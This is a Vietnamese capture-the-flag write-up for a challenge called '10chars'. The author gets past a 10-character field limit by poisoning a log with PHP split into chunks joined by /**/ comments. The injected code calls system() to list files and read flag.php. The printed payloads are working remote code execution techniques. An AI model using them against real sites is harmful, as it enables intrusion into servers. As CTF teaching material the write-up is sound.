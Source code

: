 Chúng ta truy cập vào trang http://10chars.scoreboard.ns01.info/index.php?page=login.php và có giao diện:

![alt text](https://raw.githubusercontent.com/Alic3Margatroid/ctfsv/master/10char/login.PNG)

Đăng ký user, nhận thấy các trường đều bị giới hạn lượng ký tự là 10. Đăng nhập vào ta có:

![alt text](https://raw.githubusercontent.com/Alic3Margatroid/ctfsv/master/10char/home.PNG)

Chức năng log:

![alt text](https://raw.githubusercontent.com/Alic3Margatroid/ctfsv/master/10char/log.PNG)

và chức năng log sau khi chúng ta thử đổi thay đổi thông tin cá nhân (email):

![alt text](https://raw.githubusercontent.com/Alic3Margatroid/ctfsv/master/10char/alt-log.PNG)

Có thể thấy khi chúng ta thay đổi email, thông tin sẽ được log lại vào 1 file log nào đó, sau đó chức năng log sẽ đọc file này rồi in ra màn hình. Điều này dẫn tới ý tưởng inject code php để chạy system command. Tuy nhiên 1 email chỉ có 10 ký tự, và log kèm email còn có 1 string khác, nên ta sẽ bypass việc này bằng cách chèn comment /**/ giữa các dòng.

Gửi các dòng như sau:
<?php /*
*/$a=/*
*/'ls';/*
*/system/*
*/($a)/*
*/;?>
với parameter là email, vào log ta sẽ được:

![alt text](https://raw.githubusercontent.com/Alic3Margatroid/ctfsv/master/10char/ls.PNG)

Tương tự như trên, gửi các dòng
<?php /*
*/$a=/*
*/'cat '/*
*/.'fla'/*
*/.'g.p'/*
*/.'hp';/*
*/system/*
*/($a)/*
*/;?>
để đọc flag.php sẽ được:

![alt text](https://raw.githubusercontent.com/Alic3Margatroid/ctfsv/master/10char/flag.PNG)

flag: Flag{_0nLy_10Ch4RAct3r_}
